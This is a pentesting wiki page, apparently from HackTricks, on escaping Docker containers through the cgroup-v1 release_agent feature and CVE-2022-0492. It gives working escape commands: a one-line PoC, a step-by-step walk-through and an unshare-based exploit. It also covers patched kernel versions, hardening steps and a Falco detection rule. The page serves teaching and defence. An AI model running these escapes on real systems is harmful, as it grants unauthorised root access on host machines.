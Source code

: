 # Docker release_agent cgroups escape

{{#include ../../../../banners/hacktricks-training.md}}

**For further details, refer to the** [**original blog post**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**.** This is just a summary:

---

## Classic PoC (2019)

```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

The PoC abuses the **cgroup-v1** `release_agent` feature: when the last task of a cgroup that has `notify_on_release=1` exits, the kernel (in the **initial namespaces on the host**) executes the program whose pathname is stored in the writable file `release_agent`.  Because that execution happens with **full root privileges on the host**, gaining write access to the file is enough for a container escape.

### Short, readable walk-through

1. **Prepare a new cgroup**

   ```shell
   mkdir /tmp/cgrp
   mount -t cgroup -o rdma cgroup /tmp/cgrp   # or –o memory
   mkdir /tmp/cgrp/x
   echo 1 > /tmp/cgrp/x/notify_on_release
   ```

2. **Point `release_agent` to attacker-controlled script on the host**

   ```shell
   host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
   echo "$host_path/cmd" > /tmp/cgrp/release_agent
   ```

3. **Drop the payload**

   ```shell
   cat <<'EOF' > /cmd
#!/bin/sh
ps aux > "$host_path/output"
EOF
   chmod +x /cmd
   ```

4. **Trigger the notifier**

   ```shell
   sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"   # add ourselves and immediately exit
   cat /output                                  # now contains host processes
   ```

---

## 2022 kernel vulnerability – CVE-2022-0492

In February 2022 Yiqi Sun and Kevin Wang discovered that **the kernel did *not* verify capabilities when a process wrote to `release_agent` in cgroup-v1** (function `cgroup_release_agent_write`).

Effectively **any process that could mount a cgroup hierarchy (e.g. via `unshare -UrC`) could write an arbitrary path to `release_agent` without `CAP_SYS_ADMIN` in the *initial* user namespace**.  On a default-configured, root-running Docker/Kubernetes container this allowed:

* privilege escalation to root on the host; ↗
* container escape without the container being privileged.

The flaw was assigned **CVE-2022-0492** (CVSS 7.8 / High) and fixed in the following kernel releases (and all later):

* 5.16.2, 5.15.17, 5.10.93, 5.4.176, 4.19.228, 4.14.265, 4.9.299.

Patch commit: `1e85af15da28 "cgroup: Fix permission checking"`.

### Minimal exploit inside a container

```bash
# prerequisites: container is run as root, no seccomp/AppArmor profile, cgroup-v1 rw inside
apk add --no-cache util-linux  # provides unshare
unshare -UrCm sh -c '
  mkdir /tmp/c; mount -t cgroup -o memory none /tmp/c;
  echo 1 > /tmp/c/notify_on_release;
  echo /proc/self/exe > /tmp/c/release_agent;     # will exec /bin/busybox from host
  (sleep 1; echo 0 > /tmp/c/cgroup.procs) &
  while true; do sleep 1; done
'
```
If the kernel is vulnerable the busybox binary from the *host* executes with full root.

### Hardening & Mitigations

* **Update the kernel** (≥ versions above).  The patch now requires `CAP_SYS_ADMIN` in the *initial* user namespace to write to `release_agent`.
* **Prefer cgroup-v2** – the unified hierarchy **removed the `release_agent` feature completely**, eliminating this class of escapes.
* **Disable unprivileged user namespaces** on hosts that do not need them:
  ```shell
  sysctl -w kernel.unprivileged_userns_clone=0
  ```
* **Mandatory access control**: AppArmor/SELinux policies that deny `mount`, `openat` on `/sys/fs/cgroup/**/release_agent`, or drop `CAP_SYS_ADMIN`, stop the technique even on vulnerable kernels.
* **Read-only bind-mask** all `release_agent` files (Palo Alto script example):
  ```shell
  for f in $(find /sys/fs/cgroup -name release_agent); do
      mount --bind -o ro /dev/null "$f"
  done
  ```

## Detection at runtime

[`Falco`](https://falco.org/) ships a built-in rule since v0.32:

```yaml
- rule: Detect release_agent File Container Escapes
  desc: Detect an attempt to exploit a container escape using release_agent
  condition: open_write and container and fd.name endswith release_agent and
             (user.uid=0 or thread.cap_effective contains CAP_DAC_OVERRIDE) and
             thread.cap_effective contains CAP_SYS_ADMIN
  output: "Potential release_agent container escape (file=%fd.name user=%user.name cap=%thread.cap_effective)"
  priority: CRITICAL
  tags: [container, privilege_escalation]
```

The rule triggers on any write attempt to `*/release_agent` from a process inside a container that still wields `CAP_SYS_ADMIN`.


## References

* [Unit 42 – CVE-2022-0492: container escape via cgroups](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/) – detailed analysis and mitigation script.
* [Sysdig Falco rule & detection guide](https://sysdig.com/blog/detecting-mitigating-cve-2022-0492-sysdig/)

{{#include ../../../../banners/hacktricks-training.md}}